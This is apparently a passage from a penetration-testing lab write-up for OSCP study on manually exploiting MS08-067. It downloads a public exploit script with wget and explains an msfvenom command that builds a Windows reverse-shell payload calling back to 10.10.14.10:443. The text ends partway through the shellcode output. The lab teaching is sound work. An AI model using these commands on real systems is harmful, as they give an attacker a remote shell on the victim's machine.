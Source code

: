 {: .notice--success}

## Manual Exploitation
If you're interested in pursuing your [Offensive Security Certified Professional/OSCP](https://www.offensive-security.com/pwk-oscp/) certification, you need to get comfortable learning how an exploit works and tailoring it to your needs. Metasploit is amazing, but manually exploiting flaws shows the mark of a genuinely competent penetration testing professional. Additionally, newer vulnerabilities will often not yet have metasploit modules or other public exploits.

### Obtain or Construct an Exploit
We still often use the same exploits, but we set up the listener ourselves and manually modify any code specific to our situation. We have a few options, but andyacer provides and updated [python script](https://github.com/andyacer/ms08_067/blob/master/ms08_067_2018.py).

Either use `wget` commands to clone the repository or paste the code into a file via `vi` or `nano`. The code conveniently contains instructions to change variables and construct shellcode that will work. 
```bash
┌──(root💀dc20505)-[~/legacy]
└─# wget https://raw.githubusercontent.com/andyacer/ms08_067/master/ms08_067_2018.py
--2022-04-06 20:00:51--  https://raw.githubusercontent.com/andyacer/ms08_067/master/ms08_067_2018.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 2606:50c0:8001::154, 2606:50c0:8002::154, 2606:50c0:8003::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|2606:50c0:8001::154|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12003 (12K) [text/plain]
Saving to: ‘ms08_067_2018.py’

ms08_067_2018.py                        100%[============================================================================>]  11.72K  --.-KB/s    in 0.001s  

2022-04-06 20:00:54 (10.6 MB/s) - ‘ms08_067_2018.py’ saved [12003/12003]
```
### Generate Shellcode 
The `msfvenom` program can be used with the following patrameters to generate our shellcode:
- `-p windows/shell_reverse_tcp` connects to our machine with a shell that we can catch with netcat (`nc`)
- `LHOST=10.10.14.10 LPORT=443 EXITFUNC=thread` are simply our local machine address and port we wish to receive the connection on, and how we wish for the payload to exit.
- `-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"` defines the bad characters that should't be use din the code as they would cause the exploit to terminate. You often have to perform testing to discover these for yourself, but these were provided within the exploit code we selected.
- `-f py` denotes the output for the file. In this case, python. 
- `-a x86 --platform windows` describe the architecture and environment we are attacking.

```bash
┌──(root💀dc20505)-[~/legacy]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1700 bytes
buf =  b""
buf += b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
```
